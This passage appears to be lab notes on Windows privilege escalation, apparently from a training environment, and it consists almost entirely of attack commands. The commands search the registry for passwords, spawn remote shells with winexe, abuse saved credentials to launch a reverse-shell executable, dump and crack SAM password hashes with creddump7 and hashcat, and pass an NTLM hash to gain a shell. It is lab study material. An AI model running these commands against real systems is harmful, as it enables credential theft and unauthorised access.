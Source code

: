 ```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

use winexe to spawn cmd

```
winexe -U 'admin%password' //10.10.241.122 cmd.exe
```

## saved creds

---

List saved creds:

```
cmdkey /list
```

on Kali:

```
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

## SAM

---

copy SAM and SYSTEM files to kali.

```bash
git clone https://github.com/Tib3rius/creddump7
pip3 install pycrypto
python3 creddump7/pwdump.py SYSTEM SAM > hashes.txt
```

```
hashcat -m 1000 --force hashes.txt /usr/share/wordlists/rockyou.txt
```

## pass the hash

---

```bash
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.180.131 cmd.exe 
```

## autologons

---
